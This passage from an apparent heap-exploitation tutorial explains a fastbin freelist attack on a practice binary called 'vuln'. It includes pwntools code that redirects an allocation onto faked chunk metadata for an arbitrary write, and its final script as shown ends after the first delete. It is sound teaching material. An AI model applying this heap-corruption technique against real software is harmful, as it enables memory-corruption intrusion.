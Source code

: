 The reason we have to subtract 8 off `fakemetadata` is that the only thing we faked in the souce is the `size` field, but `prev_size` is at the very front of the chunk metadata. If we point the fastbin freelist at the `fakemetadata` variable it'll interpret it as `prev_size` and the 8 bytes afterwards as `size`, so we shift it all back 8 to align it correctly.

![](../../../.gitbook/assets/image%20%2832%29.png)

Now we can control where we write, and we know where to write to.

### Getting the Arbitrary Write

First, let's replace the location we write to with where we want to:

```python
create(p64(fake_metadata))
```

Now let's finish it off by creating another user. Since we control the fastbin, this user gets written to the location of our fake metadata, giving us an almost arbitrary write.

```python
create('\x00' * 8 + 'admin\x00')
complete()
```

{% hint style="info" %}
The 8 null bytes are padding. If you read the source, you notice the metadata string is 16 bytes long rather than 8, so we need 8 more padding.
{% endhint %}

```text
$ python3 exploit.py
[+] Starting local process 'vuln': pid 8296
[+] Fake Metadata: 0x602088
b'Level Complete!\n'
```

Awesome - we completed the level!

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()


def create(name='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Name: ', name)

def delete(idx):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))

def complete():
    p.sendlineafter('>> ', '3')
    print(p.recvline())

p.recvuntil('data: ')
fake_metadata = int(p.recvline(), 16) - 8

log.success('Fake Metadata: ' + hex(fake_metadata))

create('yes')
create('yes')
delete(0)
```